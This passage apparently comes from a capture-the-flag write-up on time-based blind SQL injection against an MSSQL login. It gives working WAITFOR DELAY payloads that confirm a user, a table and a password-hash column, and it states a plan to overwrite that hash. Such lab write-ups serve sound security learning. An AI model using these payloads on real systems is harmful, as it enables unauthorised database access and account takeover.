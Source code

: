 Afterwards, I enumerated some possible usernames, and found that `butch` was one of them.&#x20;

```sql
'if (select user) = 'butch' waitfor delay '0:0:10'--
```

Let's now identify the tables that are present within this database.

{% code overflow="wrap" %}
```sql
'; IF ((select count(name) from sys.tables where name = 'users')=1) WAITFOR DELAY '0:0:10';--
```
{% endcode %}

The above payload verifies that `users` is a table within the database. Now we can check for columns.&#x20;

{% code overflow="wrap" %}
```sql
'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name='users' and c.name = 'username')=1) WAITFOR DELAY '0:0:10';--
```
{% endcode %}

However, there is no `passwords` column present. In all the boxes I've done, the passwords in the databases I found were always hashed. I googled and read a bit more about the typical naming conventions and authentication mechanisms of MSSQL servers, and found this:

{% embed url="https://learn.microsoft.com/en-us/sql/t-sql/functions/pwdcompare-transact-sql?view=sql-server-ver16" %}

This told me that the column name might be `password_hash`, and we can vertify this using this payload:

{% code overflow="wrap" %}
```sql
'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name='users' and c.name = 'password_hash')=1) WAITFOR DELAY '0:0:10';--
```
{% endcode %}

Now that we have verified the existence of a `users` and `password_hash` column with a username of `butch`, we can actually update this column to have any hash we want. Right now, the hash type is unknown, so let's just try a few common hash algorithms like SHA1 and MD5.

{% code overflow="wrap" %}
```
$ echo hello | md5sum                                                             
b1946ac92492d2347c6235b4d2611184
$ echo hello | sha1sum
f572d396fae9206628714fb2ce00f72e94f2258f
$ echo hello | sha256sum
5891b5b522d5df086d0ff0b110fbd9d21bb4fc7163af34d08286a2e846f6be03
$ echo hello | sha512sum 
e7c22b994c59d9cf2b48e549b1e24666636045930d3da7c1acb299d1c3b7f931f94aae41edda2c2b207a36e10f8bcb8d45223e54878f5b316e7ce3b6bc019629
```
{% endcode %}
